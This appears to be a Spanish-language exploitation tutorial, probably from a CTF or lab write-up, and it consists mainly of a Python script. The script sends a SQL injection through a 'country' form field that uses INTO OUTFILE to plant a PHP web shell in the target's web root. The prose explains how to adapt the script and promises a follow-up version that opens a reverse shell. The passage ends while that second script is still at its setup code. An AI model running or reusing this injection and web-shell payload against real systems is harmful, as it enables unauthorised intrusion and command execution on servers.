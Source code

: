 ```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

#Ctlr+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
        log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
        sys.exit(1)

# Varianles globales
ip_address = sys.argv[1]
filename = sys.argv[2]
main_url = "http://%s/" % ip_address

def createFile():

        data_post = {
                'username': 'admin',
                'country': """Brazil' UNION SELECT "<?php system($_REQUEST['cmd']); ?>" INTO OUTFILE "/var/www/html/%s"-- -""" % (filename)
        }

        r = requests.post(main_url, data=data_post)

if __name__ == '__main__':

        createFile()
```

Con este script de `python` ajustado a las necesidades de cada uno te creara un archivo en la `IP` que le indiques y si tuviera una ruta diferente despues de la `/` se modifica la parte de `main_url = "http://%s/" % ip_address` añadiendo despues de la `/` lo que sea necesario y los paraemtros de `username y country` igual...

Pero si a parte de crear el script quieres automatizarlo mas aun creando una `Reverse Shell` seguidamente, lo modficaremos haciendo lo siguiente...

```python
#!/usr/bin/python3

from pwn import *
import signal, pdb, requests

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

#Ctlr+C
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 3:
        log.failure("Uso: %s <ip-address> filename" % sys.argv[0])
        sys.exit(1)

# Varianles globales
ip_address = sys.argv[1]
filename = sys.argv[2]
```